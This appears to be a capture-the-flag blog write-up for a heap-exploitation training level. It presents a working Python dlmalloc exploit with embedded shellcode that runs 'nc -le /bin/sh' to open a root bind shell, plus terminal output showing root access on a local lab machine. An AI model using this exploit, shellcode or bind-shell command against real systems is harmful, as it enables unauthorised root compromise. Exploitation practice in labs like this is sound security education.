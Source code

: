 Last time we exploited dlmalloc, we had a clear goal, redirect
execution into the target function. This time we can do whatever
we want. Let's just keep it simple and shove some shellcode
in there. 

## We did it!

Ladies and gentlemen, I've struggled a whole bunch with this level,
but I am proud to present to you, my own damn exploit that runs
`nc -le /bin/sh`, which allows me to connect to the randomly generated
port that the backdoor is listening to.

Upon connecting, we can let out a sigh of relief & rest assured that we
are root.

~~~
$ python final02.py
$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
...
tcp        0      0 *:53955                 *:*                     LISTEN     
...
$ nc localhost 53955
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
~~~

There you have it. For the sake of completeness, here's the exploit I
wrote.

{% highlight python %}

from struct import pack
import socket

HOST="127.0.0.1"
PORT=2993
SHELLCODE="\xeb\x0c\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" # Relative jump + nopsled ahoy
SHELLCODE+="\x31\xc0\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x62\x69\x6e\x2f\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x57\x56\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

ADDRS='\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + \
    pack('L', 0x0804d41c-12) + pack('L', 0x804e010)

s=socket.create_connection((HOST, PORT))
# &buf should be around 0x804e00c
part0='FSRD'+'JUNK'+SHELLCODE+'A'*(119-len(SHELLCODE))+'/' 
part1='FSRD'+'ROOT/'+ ADDRS + 'B'*(119-len(ADDRS))
payload=part0+part1
s.sendall(payload)
s.close()
{% endhighlight %}
